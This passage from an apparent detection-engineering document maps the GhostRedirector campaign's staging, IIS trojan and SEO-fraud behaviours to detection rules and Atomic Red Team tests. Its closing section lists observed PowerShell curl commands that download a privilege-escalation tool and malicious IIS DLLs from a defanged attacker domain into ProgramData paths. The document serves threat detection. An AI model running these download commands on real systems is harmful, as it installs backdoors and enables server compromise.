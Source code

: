 ### 7. File Locations & Staging
- **ProgramData directory** primary staging location
  - `windows_process_execution_from_programdata.yml`
  - `executables_or_script_creation_in_suspicious_path.yml`
- **C:\ProgramData\Microsoft\DRM\log** specific path for backdoor and IIS trojan
  - `windows_suspicious_process_file_path.yml`
- **Multiple download endpoints** from same staging infrastructure
  - `windows_file_download_via_powershell.yml`
  - `cisco_nvm___webserver_download_from_file_sharing_website.yml`

#### Atomic Red Team Tests
- T1105 Ingress Tool Transfer
  - Curl Download File (writes to C:\\ProgramData) [2b080b99-0deb-4d51-af0f-833d37c4ca6a]
- T1547.001 Registry Run Keys/Startup Folder
  - Startup artifacts in C:\\ProgramData paths (see T1547.001 tests)

### 8. Impact & Objectives
- **SEO fraud as-a-service** manipulating Google search results (T1565)
  - `web_remote_shellservlet_access.yml`
  - `windows_iis_components_add_new_module.yml`
- **Search engine manipulation** targeting gambling websites
  - *No specific SEO fraud analytics found*
- **Data manipulation** of HTTP responses for Googlebot only
  - `w3wp_spawning_shell.yml`
  - `windows_suspicious_child_process_spawned_from_webserver.yml`

#### Atomic Red Team Tests
- Gap: No dedicated SEO fraud atomics. Use IIS Module (T1505.004) and Web Shell (T1505.003) tests as behavioral proxies.

## Specific GhostRedirector Command Patterns & IOCs

### Command Line Behaviors Observed
1. **PowerShell Downloads from Staging Server**
   ```
   powershell curl https://xzs.868id[.]com/EfsNetAutoUser_br.exe -OutFile C:\ProgramData\EfsNetAutoUser_br.exe
   powershell curl http://xz.868id[.]com/EfsPotato_sign.exe -OutFile C:\ProgramData\EfsPotato_sign.exe
   powershell curl https://xzs.868id[.]com/link.exe -OutFile C:\ProgramData\link.exe
   ```

2. **IIS Module Installation**
   ```
   powershell curl https://xzs.868id[.]com/iis/br/ManagedEngine64_v2.dll -OutFile C:\ProgramData\Microsoft\DRM\log\ManagedEngine64.dll
   powershell curl https://xzs.868id[.]com/iis/IISAgentDLL.dll -OutFile C:\ProgramData\Microsoft\DRM\log\miniscreen.dll
   ```

3. **Command Execution via SQL Server**
   ```
   cmd.exe /d /s /c "powershell curl [URL] -OutFile [PATH]"
   ```
